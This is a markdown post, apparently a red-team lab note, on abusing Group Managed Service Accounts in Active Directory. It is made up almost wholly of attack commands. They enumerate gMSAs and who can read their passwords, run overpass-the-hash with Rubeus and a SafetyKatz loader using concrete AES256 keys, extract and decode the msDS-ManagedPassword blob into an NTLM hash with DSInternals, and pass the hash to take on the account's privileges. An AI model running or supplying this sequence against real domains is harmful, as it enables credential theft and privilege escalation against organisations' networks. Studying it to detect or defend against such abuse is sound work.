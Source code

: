 ```yaml
---
layout: post
date: 26/11/2022
author: Aswin Gopalakrishnan
title:  Group Managed Service Accounts (gMSA) Abuse
---
```


A group Managed Service Account (gMSA) provides automatic password management, SPN management, and delegated administration for service accounts across multiple servers.

## Enumerate gMSAs and User

A gMSA has objectclass `msDS-GroupManagedServiceAccount`. This can be used to find gMSA accounts.

1.Find gMSAs in the domain. 
```bash
Get-ADServiceAccount -Filter *
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```
2.Find the users/principals who have permissions to read the password. In this case, to read gMSA password of `jumpone` service account.
```bash
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword`
``` 

## Over Pass-the-Hash

### Using Rubeus
```bash
Rubeus.exe asktgt /user:provisioningsvc /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /domain:us.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show
```

### Using Loader and Mimikatz
```bash
.\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "Sekurlsa::pth /user:provisioningsvc /domain:us.techcorp.local /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /run:cmd.exe" "exit"`
- `sekurlsa::opassth
```

### Fetch Password Blob
```bash
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword`
```
The attribute `msDS-ManagedPassword` stores the password blob in binary form of `MSDS-MANAGEDPASSWORD_BLOB`. Once we have compromised a principal that can read the blob, use ADModule to read and DSInternals to compute NTLM hash.

### Pass-the-hash and get priveleges of gMSA
```bash
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078
```
